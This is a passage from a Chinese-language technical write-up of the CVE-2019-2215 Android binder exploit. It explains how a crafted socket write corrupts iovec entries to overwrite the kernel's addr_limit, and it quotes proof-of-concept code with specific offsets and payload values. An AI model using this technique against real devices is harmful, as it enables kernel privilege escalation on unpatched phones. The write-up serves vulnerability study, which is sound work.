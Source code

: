 ![overwrite addr_limit](/images/cve20192215/overwrite_addr_limit.jpg)

这里借用P0 blog里的图。左边是unlink后的内存布局。
首先依然是利用unlink去改写```iovec[10].iov_len```和```iovec[11].iov_base```，使其指向```iovec[10].iov_len```。
而后就是本次攻击的重点，右边部分，该布局是

```cpp
if (write(socks[1], second_write_chunk, sizeof(second_write_chunk)) != sizeof(second_write_chunk))
        err(1, "write second chunk to socket");
```

写入```second_write_chunk```后的效果。

```cpp
unsigned long second_write_chunk[] = {
        1, /* iov_len */ (already used) */
        0xdeadbeef, /* iov_base (already used) */
        0x8 + 2 * 0x10, /* iov_len (already used) */
        current_ptr + 0x8, /* next iov_base (addr_limit) */
        8, /* next iov_len (sizeof(addr_limit)) */
        0xfffffffffffffffe /* value to write - new addr_limit */
};
```

首先，此时```write```会从```iovec[11].iov_base```指向的内存开始写入数据，并且写入数据的size为**0x28** Bytes。而此时```iovec[11].iov_base```指向```iovec[10].iov_len```所在内存，即偏移为```binder_thread + 0xa8```处。从而将从```0xa8```偏移处，依次写入```second_write_chunk```中的数据。

```cpp
iovec[10].iov_len = 1;
iovec[11].iov_base = 0xdeadbeef;
iovec[11].iov_len = 0x28;
iovec[12].iov_base = current_ptr + 0x8;
iovec[12].iov_len = 0x8;
```
